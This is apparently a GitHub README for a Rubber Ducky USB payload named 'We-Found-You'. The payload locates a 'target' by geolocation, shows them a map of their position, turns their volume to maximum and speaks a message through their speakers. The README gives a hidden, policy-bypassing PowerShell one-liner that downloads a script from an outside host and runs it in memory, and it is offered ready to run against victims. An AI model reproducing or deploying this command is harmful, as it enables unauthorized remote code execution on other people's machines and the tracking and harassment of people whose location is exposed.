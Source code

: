 
<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#getting-started">Getting Started</a></li>
    <li><a href="#Contributing">Contributing</a></li>
    <li><a href="#Version-History">Version History</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# We-Found-You

This script is ready to run as is. Just download and execute with the provided link. 

## Description

This script will get the GeoLocation (Latitude and Longitude) of your target. 
Then a page will open in their browser with a map of their current location on it.
Their system volume will be turned to max level.
SAPI speak with talk through their speakers the message provided or a custom one you provide.

![alt text](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/RubberDucky/Payloads/RD-We-Found-You/location.jpg)

## Getting Started

### Dependencies

* Windows 10,11
* Their location services are turned on

<p align="right">(<a href="#top">back to top</a>)</p>

### Executing program

* Plug in your device
* Invoke-WebRequest will be entered in the Run Box to download and execute the script from memory
```
powershell -w h -NoP -NonI -Ep Bypass irm jakoby.lol/yzb | iex
```

<p align="right">(<a href="#top">back to top</a>)</p>
